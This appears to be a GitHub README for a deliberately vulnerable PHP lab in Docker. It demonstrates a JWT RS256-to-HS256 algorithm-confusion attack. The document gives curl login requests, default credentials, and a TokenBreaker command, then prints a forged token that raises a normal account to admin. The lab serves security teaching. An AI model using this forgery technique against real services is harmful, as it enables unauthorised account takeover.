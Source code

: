 ## Php-Jwt-Substitution-Attack_Rsa256_to_Hs256


JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA.

https://jwt.io/

## Owasp 

https://owasp.org/www-chapter-vancouver/assets/presentations/2020-01_Attacking_and_Securing_JWT.pdf

https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html


## Setup

install from my dockerhub : https://hub.docker.com/r/mhnamadi/jwt-php-rsa256tohs256


    docker run -ti -p 9090:5000 mhnamadi/jwt-php-rsa256tohs256
    
    docker ps 
    
    docker exec -it ContainerID bash 
    
    service apache2 start
    
    service mysql start 
    
    Done :))    
    
## Description 

         We have 2 account securestore:securestore and admin:admin 
    
         We want to account takeover from securestore to admin account with this attack

## Payload 
  
        Login to securestore and get jwt RSA256
        

1. curl -i -s -k -X $'POST' -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 69' -H $'User-Agent:Mozilla/5.0(Macintosh; Intel Mac OS X 10.15;rv:97.0) Gecko/20100101 Firefox/97.0' --data-binary $'{\"name\": \"login\",\"param\":{\"user\":\"securestore\",\"pass\":\"securestore\"}}' $'http://192.168.1.104:9090/v3/'

![Getting Started](80.png)


        Login to admin and get jwt RSA256
        
        
2. curl -i -s -k -X $'POST'  -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 57' -H $'User-Agent:Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' --data-binary $'{\"name\": \"login\",\"param\"{\"user\":\"admin\",\"pass\":\"admin\"}}'  $'http://192.168.1.104:9090/v3/'

![Getting Started](81.png)

3. the first is fuzzing on JWT token securestore and admin account 

![Getting Started](82.png)


![Getting Started](83.png)


4. We want to add "userId":"admin","isAdmin":"true" to secure store account 

        TokenBreaker is one of the best tools for JWT Attack
    
5. https://github.com/cyberblackhole/TokenBreaker    

## Attack 

        Use JWT securestore token and change payload
  
mhs-MacBook-Pro:TokenBreaker mhn$ python3 RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE2NDU0Nzc0NjYsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4NjQ2NiwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.NX6p76T2p5-DfhJcLHTJ64F_-xv6pl1iRFCrm4gDM-UPNpjmm2_1F0pfplcfrlIJEDgBQnMPe3245RLXk_gMWstJ1T3QehJIOMcBTruxbwzOUaOdF3IY-eBfeLgH0854xYnf0MW6rtezWD4a66VecsmjV3sUtRUcujF5ytpx_zqdAyEKT7dZTNLo-Wi8hTszLVhEFy_amLfIKOoWsDh43To3bvJU6OJZ1m8zAFc3Ur87GrL92wv1TToDDvmdrF9uubuZxD1tW6pek0U--DQLmcgegsKLl4_JPQNdxfmS5Eycku09IaA-4a68nrEZOPfyq-1-0lTaB_xlcDVQfFAT-g -p public.pem 

[<] Enter Your Payload value: {"iat":1645479477,"iss":"localhost","exp":1645488477,"userId":"admin","isAdmin":"true"}

[+] Successfully Encoded Token: 

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NDU0Nzk0NzcsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4ODQ3NywidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjoidHJ1ZSJ9.MdUsaQIPcVsIggim6PKt91wTsTFcWQwwwI5UIX048i8


![Getting Started](84.png)





